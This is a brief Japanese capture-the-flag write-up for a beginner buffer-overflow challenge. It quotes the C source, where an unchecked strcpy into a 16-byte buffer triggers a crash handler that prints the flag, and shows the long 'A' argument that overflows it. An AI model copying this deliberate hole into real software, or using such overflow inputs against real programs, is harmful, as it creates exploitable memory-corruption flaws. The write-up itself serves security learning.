 # buffer overflow 0

Let's start off simple, can you overflow the right buffer in this program to get the flag? You can also find it in /problems/buffer-overflow-0_2_aab3d2a22456675a9f9c29783b256a3d on the shell server. Source. 

ソースコードがこれ

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

16文字渡しているのでそれ以上の文字数を渡してみる。

```
./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
```

フラグを入手できた。
